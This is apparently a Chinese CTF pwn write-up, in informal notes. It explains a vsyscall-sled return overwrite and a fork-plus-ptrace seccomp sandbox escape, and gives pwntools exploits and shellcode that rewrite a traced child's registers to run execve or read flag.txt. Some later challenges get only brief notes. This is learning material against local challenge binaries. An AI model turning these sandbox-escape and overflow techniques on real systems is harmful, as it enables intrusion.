


我没有看到叫virtual insanity的题（

好像也没有写到

诶不是

等等。

怎么是第一题啊，，

呃（（

怎么能写，，好奇怪，，

结果写完的只有两题还有一道是喊别写的

今天上午也没有接着写的时间了这个wp只能这样了

mh那道和bank那道也有在网上刷到类似官方思路的东西

本来打算通宵看完。。

结果发现还是太困了。。都只是粗略地扫了一眼

# dist

有一个溢出

有一个直接打印flag函数的文件

开了pie

大概是部分覆盖吧

（其实不管pie硬改返回地址也有概率写出来但是这个概率微乎其微）

vsyscall sled

好天才啊第一个想出来这个办法的人好天才啊（dbq我比较蠢材

利用vsyscall里的ret跳过不喜欢的段

而且不需要任何偏移

发现自己始终搞不清scanf和read

哪个要\n哪个不要哪个加\x00哪个不加全都记不清

可能多写点就好了吧

exp：

```python
from pwn import*
filename = './chall'
# libc = 

e = ELF(filename)
# libc = ELF(libc)
context(arch=e.arch,os=e.os)
context.log_level = 'debug'

sla = lambda x,s:p.sendlineafter(x,s)
sl = lambda s:p.sendline(s)
sa = lambda x,s:p.sendafter(x,s)
s = lambda s:p.send(s)

p = process(filename)
gdb.attach(p)
# p = remote()

vsyscall = p64(0xffffffffff600000)

pay = b'a'*32 + b'a'*8 + vsyscall*4 + b'\xa9'

sa(b'leaks!!!',pay)

p.interactive()
```

# dist(1)

patch又出问题

我patch怎么老是出问题

。

 ' / ' 前面加 ' . ' 的是相对路径

不加的是绝对路径。

记得加 . 



只允许了 wait4 ptrace 和 fork函数

如果地址大小大于八千全部另当别论

ptrace是一个系统调用

Fork + Ptrace + Vsyscall

**Fork + Ptrace** 逃逸

先输入shellcode的大小，然后输入shellcode

大概是

假装调用的是wait4

实际悄悄调用execve

vsyscall能用上吗

Ptrace 沙箱 [从零开始的 Pwn 之旅 - Ptrace 沙箱 - lhon901's blog](https://craftopc.github.io/posts/%E4%BB%8E%E9%9B%B6%E5%BC%80%E5%A7%8B%E7%9A%84-pwn-%E4%B9%8B%E6%97%85---ptrace-%E6%B2%99%E7%AE%B1/)

不能用gdb吗

啥意思

能不能直接在vsyscall写然后跳过去把rip

```c
int ptrace(enum __ptrace_request request, pid_t pid, void *addr, void *data);
//request：指定操作类型，如 PTRACE_ATTACH、PTRACE_DETACH、PTRACE_PEEKDATA 等。
//PTRACE_ATTACH,用于将当前进程附加到另一个进程的调试会话中。
//PTRACE_SETOPTIONS,用于设置附加的跟踪选项。
//PTRACE_CONT.用于继续执行之前被暂停的进程
//PTRACE_DETACH,用于从一个正在被调试的进程中分离（“脱离”）调试器，被调试进程将继续正常执行。
//pid：目标进程的进程 ID（PID）。
//addr 和 data：用于特定请求的额外数据。
//data：
//PTRACE_O_TRACESECCOMP：指定设置 seccomp 事件跟踪选项。
```

https://xz.aliyun.com/news/14898

这道题好像很像

**PTRACE_O_TRACESECCOMP**

`enum __ptrace_request`  

`{`  

    `PTRACE_TRACEME` `=` `0``,`        `/``/``被调试进程调用`  

    `PTRACE_PEEKTEXT` `=` `1``，` `/``/``从内存addr处读取一个字节`  

    `PTRACE_PEEKDATA` `=` `2``,`    `/``/``查看内存addr处的一个字节`  

    `PTRACE_PEEKUSER` `=` `3``,`    `/``/``查看struct user 结构体的值`  

    `PTRACE_POKETEXT` `=` `4``，` `/``/``查看内存addr处一个字大小的内存（``4``字节）`  

    `PTRACE_POKEDATA` `=` `5``,`    `/``/``修改内存addr处一个字大小的内存（``4``字节）`  

    `PTRACE_POKEUSER` `=` `6``,`    `/``/``修改struct user结构体的值`  

    `PTRACE_CONT` `=` `7``,`        `/``/``被调试进程pid继续`  

    `PTRACE_SINGLESTEP` `=` `9``,`    `/``/``被调试进程pid执行一条汇编指令`  

    `PTRACE_GETREGS` `=` `12``,`    `/``/``获取寄存器(struct user_regs_struct)到内存data中`  

    `PTRACE_SETREGS` `=` `13``,`    `/``/``设置内存data上的数据为寄存器(struct user_regs_struct)`  

    `PTRACE_ATTACH` `=` `16``,`        `/``/``附加进程pid`  

    `PTRACE_DETACH` `=` `17``,`        `/``/``解除附加进程pid`  

    `PTRACE_SYSCALL` `=` `24``,`    `/``/``让被调试进程pid在系统调用入口或出口停止`  

`};`  

`long` `int` `ptrace (enum __ptrace_request __request, ...)`

**Vsyscall Seccomp 逃逸**。

我写shellcode一直不太好

这个exp拿不到shell但是我不知道为什么

先在0xdeae000的位置把/bin/sh\x00写上供后面利用

然后调用fork函数启动子程序

子程序调用ptrace rdi=0

    `PTRACE_TRACEME` `=` `0``,`        `/``/``被调试进程调用`

int3用于暂停子程序使父程序发现

父程序先把子程序返回来的pid存上

然后wait4

等子程序的int3

然后ptrace rdi=12

    `PTRACE_GETREGS` `=` `12``,`    `/``/``获取寄存器(struct user_regs_struct)到内存data中`

然后就修rip到那个vsyscall这个沙箱就管不了了

有一个这个结构体可以看到每个寄存器对应的位置



然后把寄存器修完塞回去

然后接着运行子程序就会跳到vsyscall

这里面有syscall还没有沙箱

沙箱管不了

（但是不太对）

（好像也不能gdb调）

```python
from pwn import*
filename = './chall'
libc = './glibc/libc.so.6'

e = ELF(filename)
libc = ELF(libc)
context(arch=e.arch,os=e.os)
context.log_level = 'debug'

sla = lambda x,s:p.sendlineafter(x,s)
sl = lambda s:p.sendline(s)
sa = lambda x,s:p.sendafter(x,s)
s = lambda s:p.send(s)

p = process(filename)
# gdb.attach(p)

# p = remote()

code_adrs = 0xDEAD000
data_adrs = 0xDEAE000

vsyscall = 0xffffffffff600005


shellcode=f'''
    mov r12, {data_adrs}
    mov rax, 0x0068732f6e69622f
    mov [r12], rax

    sub rsp, 0x200
    mov rbp, rsp

/*fork*/
    mov rax, 57          
    syscall
    test rax, rax
    jz child_logic       

parent_logic:


    mov r15, rax


    mov rax, 61          
    mov rdi, r15
    xor rsi, rsi         
    xor rdx, rdx         
    xor r10, r10         
    syscall


    mov rax, 101         
    mov rdi, 12         
    mov rsi, r15         
    xor rdx, rdx
    mov r10, rbp
    syscall

    mov rax, {vsyscall}
    mov [rbp + 128], rax

    mov qword ptr [rbp+80], 59

    mov qword ptr [rbp+120], 59
/*rsi*/
    mov qword ptr [rbp+104], 0
/*rdx*/
    mov qword ptr [rbp+96], 0
/*rdi*/
    mov qword ptr [rbp+112], {data_adrs}


    mov rax, 101
    mov rdi, 13
    mov rsi, r15
    xor rdx, rdx
    mov r10, rbp
    syscall

    mov rax, 101
    mov rdi, 7
    mov rsi, r15
    xor rdx, rdx
    xor r10, r10
    syscall

parent_loop:
    jmp parent_loop

child_logic:

    mov rax, 101
    xor rdi, rdi
    xor rsi, rsi
    xor rdx, rdx
    xor r10, r10
    syscall


    int 3

'''


shellcode = asm(shellcode)
sz = len(shellcode)

sla(b'size: ',str(sz).encode())
sla(b'shellcode: ',shellcode)


p.interactive()
```

## 二周目

由于十分好奇virtual insanity是哪道题于是搜索

结果搜virtual insanity不小心搜到这道题的解了（？）

（怎么是第一题啊。。）

搜都搜到了反正这题我自己硬想也不太知道错在哪里干脆看看

好像是不能execve（？）

发现了pwncli

好像比pwn简洁（？）

我先不急着装pwncli吧，

好天才啊。。

我草。

怎么想到的。

仅shellcode部分

由于父进程对紫禁城的监控

所以这个紫禁城的rip乱跳也没关系

（指为了通过沙箱让rip到0x800000000000000000000）

嗯

```python
    PTRACE_CONT = 7
    PTRACE_GETREGS = 12
    PTRACE_SETREGS = 13
    PTRACE_SYSCALL = 24
    RIP_OFFSET = 8*16

    shellcode = asm(f"""
        mov eax, SYS_fork
        syscall
        test eax, eax
        jz child

        mov r13, rax

        mov eax, SYS_wait4
        mov rdi, r13
        xor esi, esi
        xor edx, edx
        xor r10, r10
        syscall

        mov eax, SYS_ptrace
        mov edi, {PTRACE_SYSCALL}
        mov rsi, r13
        xor edx, edx
        xor r10, r10
        syscall

        mov eax, SYS_wait4
        mov rdi, r13
        xor esi, esi
        xor edx, edx
        xor r10, r10
        syscall

        mov eax, SYS_ptrace
        mov edi, {PTRACE_GETREGS}
        mov rsi, r13
        xor edx, edx
        mov r10, rsp
        syscall

        mov rdi, 0x820000000000
        lea rbx, [rsp+{RIP_OFFSET}]
        mov [rbx], rdi
        mov eax, SYS_ptrace
        mov edi, {PTRACE_SETREGS}
        mov rsi, r13
        xor edx, edx
        mov r10, rsp
        syscall

        mov eax, SYS_ptrace
        mov edi, {PTRACE_CONT}
        mov rsi, r13
        xor edx, edx
        xor r10, r10
        syscall

        mov eax, SYS_wait4
        mov rdi, r13
        mov rsi, rsp
        xor edx, edx
        xor r10, r10
        syscall

        mov eax, SYS_ptrace
        mov edi, {PTRACE_GETREGS}
        mov rsi, r13
        xor edx, edx
        mov r10, rsp
        syscall

        lea rdi, [rip+sendfile] 
        lea rbx, [rsp+{RIP_OFFSET}]
        mov [rbx], rdi
        mov eax, SYS_ptrace
        mov edi, {PTRACE_SETREGS}
        mov rsi, r13
        xor edx, edx
        mov r10, rsp
        syscall

        mov eax, SYS_ptrace
        mov edi, {PTRACE_SYSCALL}
        mov rsi, r13
        xor edx, edx
        xor r10, r10
        syscall

        mov eax, SYS_wait4
        mov rdi, r13
        xor esi, esi
        xor edx, edx
        xor r10, r10
        syscall

        mov eax, SYS_ptrace
        mov edi, {PTRACE_GETREGS}
        mov rsi, r13
        xor edx, edx
        mov r10, rsp
        syscall

        mov rdi, 0x820000000000
        lea rbx, [rsp+{RIP_OFFSET}]
        mov [rbx], rdi
        mov eax, SYS_ptrace
        mov edi, {PTRACE_SETREGS}
        mov rsi, r13
        xor edx, edx
        mov r10, rsp
        syscall

        mov eax, SYS_ptrace
        mov edi, {PTRACE_CONT}
        mov rsi, r13
        xor edx, edx
        xor r10, r10
        syscall

        mov eax, SYS_wait4
        mov rdi, r13
        xor esi, esi
        xor edx, edx
        xor r10, r10
        syscall

        hlt

        child:
            mov eax, SYS_ptrace
            xor edi, edi
            xor esi, esi
            xor edx, edx
            xor r10, r10
            syscall
            int3
        open:
            mov eax, SYS_open
            lea rdi, [rip+flag]
            xor esi, esi
            xor edx, edx    
            syscall
        sendfile:
            mov rax, SYS_sendfile
            mov rdi, 1
            mov rsi, 3  
            xor edx, edx
            mov r10, 0x50
            syscall
        hlt
    flag:
    """) + b"flag.txt\0"
```

# dist(3)

还有怪物猎人

libc版本是2.40

堆题

那个win函数是干什么用的

纯装饰吗

也没有看到调用这个函数的地方啊

有doublefree有uaf

# TRX BANK

为什么4会直接退出

fsop（？）

呃我有个很遭不住的点就是这些文件名。

一会chal一会chall。

也还好就是不能直接上键指令

4好像又正常了

accounts上限是三十

# devmem
